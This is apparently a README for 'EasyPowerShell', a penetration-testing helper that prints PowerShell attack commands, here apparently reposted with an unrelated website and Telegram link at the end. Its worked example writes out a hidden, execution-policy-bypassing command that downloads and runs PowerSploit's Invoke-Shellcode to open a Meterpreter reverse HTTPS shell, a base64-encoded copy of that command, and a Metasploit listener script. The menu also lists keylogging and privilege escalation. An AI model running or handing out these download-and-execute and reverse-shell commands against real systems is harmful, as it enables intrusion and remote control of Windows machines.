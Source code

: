 	EasyPowerShell is a tool used for showing a user which PowerShell scripts to use in a penetration test, depending on the users needs. There are 7 different sections of this tool-
	
		[1] Privilege Escalation
		[2] Lateral Movement
		[3] Keylogging
		[4] PowerShell Meterpreter (Reverse HTTPS)
		[5] Change Users Execution Policy
		[6] Powershell 101
		[7] Base64 Encode a PowerShell Script

	Each option reflects what kinds of scripts are available, and what they are used for. These scripts have proven their value during pentests, which is why I've written this
	tool to show the user exactly how a PowerShell script should be executed in their specific situation, such as using a base64 encoded version of the script or executing a
	script to download a PowerShell script from the Internet and execute it.

	For example, let's say a user is in a pentest, and they have a remote Windows shell on a target machine, but they want to utilize PowerShell within their normal shell to
	gain a Metasploit Meterpreter. They can run Easy_P, select [4] for the "PowerShell Meterpreter (Reverse HTTPS)" option, supply their listening IP address and listening port for their reverse
        Meterpreter payload, and they're presented with the following-

		[*]Download from internet and execute:
           	  Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.github.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); 
                  Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost localhost -Lport 1337 -Force

		[*]Run from a local copy of the script:
		  powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-Shellcode.ps1; 
                  Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost localhost -Lport 1337 -Force}"

		[*]Base64 encoded version download and execute:
		  powershell.exe -NoP -NonI -W Hidden -Exec Bypass -enc 
                  SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA
                  GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwBtAGEAdAB0AGkAZg
                  BlAHMAdABhAHQAaQBvAG4ALwBQAG8AdwBlAHIAUwBwAGwAbwBpAHQALwBtAGEAcwB0AGUAcgAvAEMAbwBkAGUARQB4AGUAYwB1AHQ
                  AaQBvAG4ALwBJAG4AdgBvAGsAZQAtAFMAaABlAGwAbABjAG8AZABlAC4AcABzADEAJwApADsAIABJAG4AdgBvAGsAZQAtAFMAaABl
                  AGwAbABjAG8AZABlACAALQBQAGEAeQBsAG8AYQBkACAAdwBpAG4AZABvAHcAcwAvAG0AZQB0AGUAcgBwAHIAZQB0AGUAcgAvAHIAZ
                  QB2AGUAcgBzAGUAXwBoAHQAdABwAHMAIAAtAEwAaABvAHMAdAAgAGwAbwBjAGEAbABoAG8AcwB0ACAALQBMAHAAbwByAHQAIAAxADMAMwA3ACAALQBGAG8AcgBjAGUA

		[*]Listner Resource Script (listener.rc) - Save the following to a file called listener.rc on your machine and load your handler with msfconsole -r listener.rc
                                                           Then, execute your desired PowerShell script.
		  use multi/handler 
		  set payload windows/meterpreter/reverse_https 
		  set LHOST <user-defined-listener-ip>
		  set LPORT <user-defined-listener-port>
		  set ExitOnSession false 
		  exploit -j

	
	In this case, the user can use the first option, and execute a PowerShell command to download the script for his Meterpreter from the Internet after setting up his 
        multi/handler (from executing his Listener Resource Script). The script downloaded from the Internet will execute and connect back to his Listener. With the use
	of Easy_P, the user saved time by not having to remember of look up the proper syntax of the command to execute against the target machine he's gained access to, as
	well as being presented with several options for the use of his script that they can apply to their specific situation.

< Usage >

	Simply run-
	  
	  python easy_p.py

	You will then be presented with the menu for EasyPowerShell.

www.majidkalantarii.ir
T.me/Sagheb
